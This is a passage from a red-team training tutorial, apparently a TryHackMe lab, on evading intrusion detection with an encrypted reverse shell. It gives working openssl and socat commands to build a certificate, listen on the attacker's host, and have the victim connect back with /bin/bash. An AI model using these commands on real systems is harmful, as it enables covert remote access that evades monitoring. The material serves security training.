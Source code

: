 Because an IDS/IPS won’t inspect encrypted data, an attacker can take advantage of encryption to evade detection. Unlike encoding, encryption requires an encryption key.

One direct approach is to create the necessary encryption key on the attacker’s system and set `socat` to use the encryption key to enforce encryption as it listens for  incoming connections. An encrypted reverse shell can be carried out in  three steps:

1. Create the key
2. Listen on the attacker’s machine
3. Connect to the attacker’s machine

**Firstly**, On the AttackBox or any Linux system, we can create the key using `openssl`.

```
openssl req -x509 -newkey rsa:4096 -days 365 -subj  '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
```

The arguments in the above command are:

- `req` indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
- `-x509` specifies that we want an X.509 certificate
- `-newkey rsa:4096` creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can  use other options for RSA key size, such as `-newkey rsa:2048`.)
- `-days 365` shows that the validity of our certificate will be one year
- `-subj` sets data, such as organization and country, via the command-line.
- `-nodes` simplifies our command and does not encrypt the private key
- `-keyout PRIVATE_KEY` specifies the filename where we want to save our private key
- `-out CERTIFICATE` specifies the filename to which we want to write the certificate request

The above command returns:

- Private key: `thm-reverse.key`
- Certificate: `thm-reverse.crt`

The Privacy Enhanced Mail (PEM) `.pem` file requires the concatenation of the private key `.key` and the certificate `.crt` files. We can use `cat` to create our PEM file from the two files that we have just created:

`cat thm-reverse.key thm-reverse.crt > thm-reverse.pem`.

**Secondly**, with the PEM file ready, we can start listening while using the key for encrypting the communication with the client.

```
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
```

If you are not familiar with `socat`, the options that we used are:

- `-d -d` provides some debugging data (fatal, error, warning, and notice messages)
- `OPENSSL-LISTEN:PORT_NUM` indicates that the connection will be encrypted using OPENSSL
- `cert=PEM_FILE` provides the PEM file (certificate and private key) to establish the encrypted connection
- `verify=0` disables checking peer’s certificate
- `fork` creates a sub-process to handle each new connection.

**Thirdly**, on the victim system, `socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash`. Note that the `EXEC` invokes the specified program.
